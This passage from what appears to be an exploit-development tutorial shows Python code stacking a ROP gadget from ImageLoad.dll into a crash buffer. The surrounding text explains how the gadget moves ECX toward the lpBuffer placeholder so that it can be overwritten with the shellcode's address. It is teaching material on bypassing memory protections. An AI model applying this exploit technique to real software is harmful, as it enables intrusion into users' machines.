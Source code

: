 We will use the following ROP gadgets, in order to make ECX contain the stack address holding the `lpBuffer` parameter placeholder.

```python
crash += struct.pack('<L', 0x1001dacc)    # inc ecx ; clc ; mov edx, dword [ecx-0x04] ; ret: ImageLoad.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0x1001dacc)    # inc ecx ; clc ; mov edx, dword [ecx-0x04] ; ret: ImageLoad.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0x1001dacc)    # inc ecx ; clc ; mov edx, dword [ecx-0x04] ; ret: ImageLoad.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0x1001dacc)    # inc ecx ; clc ; mov edx, dword [ecx-0x04] ; ret: ImageLoad.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0x1001dacc)    # inc ecx ; clc ; mov edx, dword [ecx-0x04] ; ret: ImageLoad.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0x1001dacc)    # inc ecx ; clc ; mov edx, dword [ecx-0x04] ; ret: ImageLoad.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0x1001dacc)    # inc ecx ; clc ; mov edx, dword [ecx-0x04] ; ret: ImageLoad.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0x1001dacc)    # inc ecx ; clc ; mov edx, dword [ecx-0x04] ; ret: ImageLoad.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0x1001dacc)    # inc ecx ; clc ; mov edx, dword [ecx-0x04] ; ret: ImageLoad.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0x1001dacc)    # inc ecx ; clc ; mov edx, dword [ecx-0x04] ; ret: ImageLoad.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0x1001dacc)    # inc ecx ; clc ; mov edx, dword [ecx-0x04] ; ret: ImageLoad.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0x1001dacc)    # inc ecx ; clc ; mov edx, dword [ecx-0x04] ; ret: ImageLoad.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0x1001dacc)    # inc ecx ; clc ; mov edx, dword [ecx-0x04] ; ret: ImageLoad.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0x1001dacc)    # inc ecx ; clc ; mov edx, dword [ecx-0x04] ; ret: ImageLoad.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0x1001dacc)    # inc ecx ; clc ; mov edx, dword [ecx-0x04] ; ret: ImageLoad.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0x1001dacc)    # inc ecx ; clc ; mov edx, dword [ecx-0x04] ; ret: ImageLoad.dll (non-ASLR enabled module)
```
Two things about the above ROP gadgets. First, the `clc` instruction.

`clc` is an assembly instruction that clears the "carry" flag (the CF register). None of our ROP gadgets, now or later, depend on the state of this flag - so it is okay that this instruction resides in this gadget. Additionally, we have a `mov edx, dword [ecx-0x4]` instruction. Currently, we are not using the EDX register for anything - so this instruction will not consequently disrupt what we are trying to achieve.

Also notably, this set of ROP gadgets only increases ECX by 16 decimal bytes (0x10 hexadecimal) - even though the parameter placeholder for `lpBuffer` is located 0x18 bytes away (24 decimal bytes).

This is again a "preparatory" procedure for our future ROP gadgets. We need a gadget, similar to the following: `mov dword ptr [ecx], reg`, where `reg` refers to any register that contains the stack address of our shellcode and `dword ptr [ecx]` contains the stack address which is currently serving as the parameter placeholder for `lpBuffer`. This will essentially take what ECX is pointing to, which is `0x11111111`, and overwrite the pointer with the actual address of our shellcode.
